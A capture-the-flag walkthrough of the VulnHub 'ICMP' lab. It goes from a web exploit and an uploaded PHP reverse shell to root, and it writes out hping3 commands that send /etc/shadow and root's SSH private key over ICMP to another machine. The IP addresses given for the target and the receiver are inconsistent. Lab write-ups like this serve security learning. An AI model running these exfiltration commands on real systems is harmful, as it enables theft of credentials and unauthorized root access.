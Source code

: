 # ICMP

## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️

Easy box, monitor resources

This works better with VirtualBox rather than VMware

{: .prompt-info }

Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```

On the target machine, we should do as follows to get the shadow file.

```
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```

```
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```

Lastly, I could log in to the system.

```
ssh root@10.0.2.24 -i id_rsa
```

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---
